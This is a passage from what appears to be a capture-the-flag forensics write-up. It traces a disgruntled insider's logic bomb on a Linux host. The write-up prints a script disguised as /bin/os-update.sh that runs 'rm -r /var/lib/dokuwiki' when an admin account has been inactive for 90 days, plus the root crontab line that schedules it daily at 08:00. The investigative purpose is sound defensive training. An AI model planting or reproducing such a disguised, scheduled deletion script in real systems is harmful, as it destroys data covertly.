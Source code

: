 ```bash
root@ip-10-10-26-7:/home/it-admin# ls -la /bin |grep os-update
-rw-r--r--  1 root root     325 Dec 28 06:29  2022 os-update.sh
```



Answer: `Dec 28 06:29 `


### Task 3.4 What is the name of the file that will get created when the file from the first question executes?

Lets have a look into the script `os-update.sh`:

```bash
root@ip-10-10-26-7:/home/it-admin# cat /bin/os-update.sh
# 2022-06-05 - Initial version
# 2022-10-11 - Fixed bug
# 2022-10-15 - Changed from 30 days to 90 days
OUTPUT=`last -n 1 it-admin -s "-90days" | head -n 1`
if [ -z "$OUTPUT" ]; then
        rm -r /var/lib/dokuwiki
        echo -e "I TOLD YOU YOU'LL REGRET THIS!!! GOOD RIDDANCE!!! HAHAHAHA\n-mistermeist3r" > /goodbye.txt
fi
root@ip-10-10-26-7:/home/it-admin#
```
We can see, that the script creates after a defined time an output which goes into `goodbye.txt` via `>`.


Answer: ` goodbye.txt`

## Task 4 Following the fuse

        So we have a file and a motive. The question we now have is: how will this file be executed?

        Surely, he wants it to execute at some point?

- At what time will the malicious file trigger? (Format: HH:MM AM/PM)

### Task 4.1 At what time will the malicious file trigger? (Format: HH:MM AM/PM)

Lastly we check the `crontab` file when the script will be executed.

```bash

cat /etc/crontab

PATH=/usr/local/sbin:/usr/local/bin:/sbin:/bin:/usr/sbin:/usr/bin

# m h dom mon dow user  command
17 *    * * *   root    cd / && run-parts --report /etc/cron.hourly
25 6    * * *   root    test -x /usr/sbin/anacron || ( cd / && run-parts --report /etc/cron.daily )
47 6    * * 7   root    test -x /usr/sbin/anacron || ( cd / && run-parts --report /etc/cron.weekly )
52 6    1 * *   root    test -x /usr/sbin/anacron || ( cd / && run-parts --report /etc/cron.monthly )
0 8     * * *   root    /bin/os-update.sh
```
